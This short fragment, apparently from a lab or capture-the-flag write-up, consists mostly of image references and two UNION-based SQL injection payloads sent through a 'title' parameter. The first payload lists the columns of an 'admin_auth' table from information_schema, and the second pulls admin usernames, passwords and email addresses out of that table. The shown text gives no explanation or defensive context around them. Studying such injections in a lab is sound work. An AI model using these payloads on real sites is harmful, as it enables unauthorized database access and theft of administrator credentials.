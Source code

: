 ![](attachment/9216dd8b2296e064b4ed73734c41b9ca.png)

`title=help' UNION SELECT column_name, null, null FROM information_schema.columns WHERE table_name='admin_auth'-- -`
![](attachment/d0148da0826cc197a3a6add32002b118.png)

`title=help' UNION SELECT admin_username, admin_password, email FROM admin_auth-- -`